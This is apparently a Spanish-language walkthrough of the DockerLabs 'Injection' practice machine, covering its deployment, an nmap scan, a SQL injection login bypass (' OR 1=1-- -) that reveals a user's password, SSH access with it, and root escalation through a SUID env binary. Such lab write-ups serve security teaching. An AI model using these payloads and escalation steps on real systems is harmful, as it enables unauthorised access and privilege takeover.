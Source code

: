 # Injection DockerLabs (Very Easy)

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip injection.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh injection.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-02 05:11 EST
Nmap scan report for 172.17.0.2
Host is up (0.000034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.82 seconds
```

Si entramos en la pagina vemos un `login`, pero si probamos las credenciales por defecto veremos que no nos va a dejar entrar, vamos a probar algun `payload` para ver si fuera vulnerable a un `SQL Injection`:

```
User: ' OR 1=1-- -
Pass: ' OR 1=1-- -
```

Como resultado veremos lo siguiente:

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Vemos que directamente podremos `bypassear` el login y ver las credenciales de un usuario, por lo que haremos lo siguiente.

```shell
ssh dylan@<IP>
```

Metemos como contarseña `KJSDFG789FGSDF78` y veremos que estamos dentro.

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2102291    332 -rwsr-xr-x   1 root     root       338536 Jan  2  2024 /usr/lib/openssh/ssh-keysign
  2102231     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  2097641     44 -rwsr-xr-x   1 root     root          44808 Feb  6  2024 /usr/bin/chsh
  2097766     40 -rwsr-xr-x   1 root     root          40496 Feb  6  2024 /usr/bin/newgrp
  2097777     60 -rwsr-xr-x   1 root     root          59976 Feb  6  2024 /usr/bin/passwd
  2097841     56 -rwsr-xr-x   1 root     root          55672 Feb 21  2022 /usr/bin/su
  2097703     72 -rwsr-xr-x   1 root     root          72072 Feb  6  2024 /usr/bin/gpasswd
  2097761     48 -rwsr-xr-x   1 root     root          47480 Feb 21  2022 /usr/bin/mount
  2097867     36 -rwsr-xr-x   1 root     root          35192 Feb 21  2022 /usr/bin/umount
  2097635     72 -rwsr-xr-x   1 root     root          72712 Feb  6  2024 /usr/bin/chfn
  2117300     44 -rwsr-xr-x   1 root     root          43976 Jan  8  2024 /usr/bin/env
```

Vemos la siguiente linea bastante interesante:

```
2117300  44 -rwsr-xr-x   1 root  root   43976 Jan  8  2024 /usr/bin/env
```

Por lo que sabiendo esto podremos ejecutar el siguiente comando:

```shell
env /bin/bash -p
```

Info:

```
bash-5.1# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
